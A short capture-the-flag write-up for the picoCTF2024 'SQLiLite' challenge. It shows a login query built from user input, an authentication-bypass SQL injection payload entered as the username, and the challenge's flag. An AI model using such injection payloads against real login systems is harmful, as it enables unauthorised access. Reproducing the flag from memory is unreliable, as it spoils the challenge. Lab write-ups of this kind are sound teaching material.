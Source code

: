 # picoCTF2024 SQLiLite Write Up

## Description

> Can you login to this website? Try to login [here](http://saturn.picoctf.net:57639/).

## Solution

The challenge website features a standard login page. Entering the default credentials reveals the following details about the login attempt:

```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```

This tells us that the users username and password are begin used to fetch data from an SQL database. We can easily manipulate this query to fetch all users by setting the username to:

```
' OR 1 = 1; -- t
```

And using any password. This results in a successful login, however we are then the flag is "hidden in plainsight". Checking the pages source code reveals the flag:

```
picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
```

